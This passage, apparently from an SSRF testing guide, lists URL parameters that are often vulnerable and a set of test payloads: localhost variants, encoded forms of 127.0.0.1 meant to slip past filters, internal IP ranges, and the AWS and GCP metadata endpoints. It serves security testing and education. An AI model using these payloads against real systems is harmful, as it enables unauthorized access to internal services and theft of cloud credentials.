 ```bash
http://internal-api/     # 401 Unauthorized
http://nonexistent/      # Connection timeout
```

## 🔍 Detection Techniques

### 1. 🎯 Manual Detection

#### Common SSRF Parameters
```bash
# URL parameters commonly vulnerable to SSRF
url=
uri=
path=
continue=
redirect=
next=
data=
reference=
site=
html=
val=
validate=
domain=
callback=
return=
page=
feed=
host=
port=
to=
out=
view=
dir=
show=
navigation=
open=
```

#### SSRF Test Payloads
```bash
# Local host variations
http://127.0.0.1:80
http://localhost:80
http://0.0.0.0:80
http://[::]
http://0000::1:80

# IP address variations
http://2130706433/          # Decimal representation of 127.0.0.1
http://0x7f000001/          # Hexadecimal representation
http://0177.0000.0000.0001/ # Octal representation
http://127.1/               # Short form
http://127.0.1/             # Another short form

# Internal network ranges
http://192.168.1.1/
http://10.0.0.1/
http://172.16.0.1/
http://169.254.169.254/     # AWS metadata
http://metadata.google.internal/ # GCP metadata
```
